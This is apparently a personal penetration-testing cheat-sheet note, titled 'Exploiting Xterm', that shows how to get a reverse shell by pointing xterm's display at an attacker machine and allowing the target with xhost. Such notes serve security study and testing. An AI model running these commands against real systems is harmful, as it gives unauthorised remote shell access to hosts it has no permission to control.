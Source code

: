 # Exploiting Xterm

author:: Nathan Acks  
date:: 2022-07-11

## A Simple Reverse Shell

Remember that the X11 protocol is network based! You can thus get xterm to act as a reverse shell by simply providing it with a display pointing to your machine.

```bash
xterm -display $ATTACKER_IP:$DISPLAY_NUM
```

The connection will be made back on port 6000 + `$DISPLAY_NUM` (so, 6000 for display 0, 6001 for display 1, etc.).

This, of course, requires a running X server on your end (for example, `Xnest :1`). You’ll need to make sure that connections from the target system are authrized.

```bash
xhost +$TARGET_IP
```

## References

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
